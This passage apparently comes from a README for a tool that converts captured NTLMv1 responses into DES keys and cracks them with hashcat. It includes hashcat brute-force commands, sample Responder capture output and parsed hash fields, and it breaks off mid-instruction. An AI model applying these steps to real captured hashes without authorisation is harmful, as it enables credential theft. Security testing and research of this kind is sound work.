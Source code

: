 To crack this with hashcat you use
```
./hashcat -m 14000 -a 3 -1 charsets/DES_full.charset --hex-charset hashes.txt ?1?1?1?1?1?1?1?1
```

If you are just testing my code and know the password already you can use the des converter
```
python ntlm-to-des.py --ntlm b4b9b02e6f09a9bd760f388b67351e2b
DESKEY1: b55d6d04e67926
DESKEY2: bcba83e6895b9d

echo b55d6d04e67926>>des.cand
echo bcba83e6895b9d>>des.cand
```

Basically you do the following
```
echo b55d6d04e67926>>des.cand
echo bcba83e6895b9d>>des.cand
```
```
./hashcat -m 14000 -a 0 -1 charsets/DES_full.charset --hex-charset hashes.txt des.cand
```

And you should have some reversed hashes

## NTLMv1 with ESS/SSP
SSP changes the server challenge, if you see SSP in your responder because you didn't use --lm or the client is set not to give out a LM response then SSP gets engaged. Also --disable-ess will try to force off SSP, however this requires a recent copy (August 2021 or more recent) of impacket and responder.

The SSP output looks like this
```
[SMB] NTLMv1-SSP Client   : 184.64.60.62
[SMB] NTLMv1-SSP Username : DUSTIN-5AA37877\hashcat
[SMB] NTLMv1-SSP Hash     : hashcat::DUSTIN-5AA37877:85D5BC2CE95161CD00000000000000000000000000000000:892F905962F76D323837F613F88DE27C2BBD6C9ABCD021D0:1122334455667788
```

The actual hash looks like this
```
hashcat::DUSTIN-5AA37877:85D5BC2CE95161CD00000000000000000000000000000000:892F905962F76D323837F613F88DE27C2BBD6C9ABCD021D0:1122334455667788
```

The hashcat forums post do not use SSP, so don't try to use the SSP tools on *NON* SSP hashes, you will see a stackload of zero's and thats how you can tell as the LM Response is mangled.

To use the tool run (it is python2 & 3 compatible)
```
python3 ntlmv1.py --ntlmv1 "hashcat::DUSTIN-5AA37877:85D5BC2CE95161CD00000000000000000000000000000000:892F905962F76D323837F613F88DE27C2BBD6C9ABCD021D0:1122334455667788"
```

The tool will output
```
Hashfield Split:
['hashcat', '', 'DUSTIN-5AA37877', '85D5BC2CE95161CD00000000000000000000000000000000', '892F905962F76D323837F613F88DE27C2BBD6C9ABCD021D0', '1122334455667788']

Hostname: DUSTIN-5AA37877
Username: hashcat
LM Response: 85D5BC2CE95161CD00000000000000000000000000000000
NT Response: 892F905962F76D323837F613F88DE27C2BBD6C9ABCD021D0
Client Challenge: 1122334455667788
SRV Challenge: b36d2b9a8607ea77

To Calculate final 4 characters of NTLM hash use:
```